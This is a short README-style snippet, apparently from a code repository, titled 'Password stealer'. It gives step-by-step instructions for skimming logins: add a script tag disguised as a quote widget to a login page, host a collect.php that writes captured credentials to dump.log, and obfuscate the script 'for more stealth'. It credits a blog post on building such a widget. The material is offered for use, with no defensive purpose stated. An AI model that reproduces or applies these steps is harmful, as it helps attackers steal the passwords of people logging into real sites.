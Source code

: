 ## Password stealer

Add this line to a login page

    <script src="http://127.0.0.1/quote-widget.js"></script>
    
Host the collect.php script and give it permission to write a dump.log file.

Obfuscate the script for more stealth.

Source: http://captainkuro.com/javascript/create-javascript-widget-to-steal-password/?i=1
